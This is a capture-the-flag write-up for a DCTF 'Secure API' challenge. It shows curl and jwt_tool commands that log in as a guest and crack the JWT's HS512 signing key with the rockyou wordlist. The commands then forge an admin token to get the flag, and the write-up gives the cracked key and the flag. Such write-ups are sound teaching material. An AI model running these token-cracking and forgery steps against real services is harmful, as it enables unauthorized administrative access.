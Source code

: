 Prompt:
```
Frontend is overrated! API rocks!
```

Visiting the website, we are greeted with a JSON response saying that the 'Authorization header is missing' and that we are not authorized:

![Website](secure-api5.png)

We manage to guess correctly and find the /login endpoint.
```
$ curl -X POST http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login
{"Error":"Missing username or password field."}
```

We provide the username and password as `guest:guest`, per the landing page's suggestion of using a guest account. This gets us a JWT token we can use to log in as the guest user.
```
$ curl -X POST http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login -F "username=guest" -F "password=guest"
{"Token":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ"}
```

We will follow the website's suggestion and add in the following `Authorization` header and provide the JWT token, using "Bearer" as the authentication type (since we are dealing with token authentication):
```
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ
```

After setting the Authentication header as described above, we now get a different response from the web server:

![Authenticating as guest](secure-api1.png)

Since we have the guest user's JWT, we can try to attempt to tamper it:
```
$ base64 -d <<< "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ" -i
{"typ":"JWT","alg":"HS512"}{"username":"guest","exp":1621016692}
```

We can attempt to crack the passphrase used to sign the JWT since it is using a weak HMAC HS512 algorithm:
```bash
python3 jwt_tool.py -t http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/ -rh "Authoriz
ation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE4OTUwfQ.TGOKDyPXaFucGbFqzk_tBfXW3KIs4lX
9Bkm5iQnjuZY5IXovjm7kaZ3SRWyoEjDdT9uhKfhC8CIJ1f8CfaHUpQ" -C -d /usr/share/wordlists/rockyou.txt
```

![Cracking the password](secure-api6.png)

We successfully cracked the passphrase! We can now tamper the token and resign it using different values for the JWT token claims.
We will change the `username` claim value to `admin`.
```bash
python3 jwt_tool.py -t http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/ -rh "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE4OTUwfQ.TGOKDyPXaFucGbFqzk_tBfXW3KIs4lX9Bkm5iQnjuZY5IXovjm7kaZ3SRWyoEjDdT9uhKfhC8CIJ1f8CfaHUpQ" -T -S hs512 -p "147852369" -pc username -pv admin
```

![Tampering the token](secure-api4.png)

After the tampering the token and setting the bearer token value in the Authorization header to our new token value, we now get a new response from the webserver from the `/flag` endpoint. The webserver finally provides us with the value of the flag

![Getting the flag](secure-api3.png)

```
{"Message":"Hi, admin! I have a secret for you.","Secret":"dctf{w34k_k3y5_4r3_n0t_0k4y}"}
```

Flag: `dctf{w34k_k3y5_4r3_n0t_0k4y}`
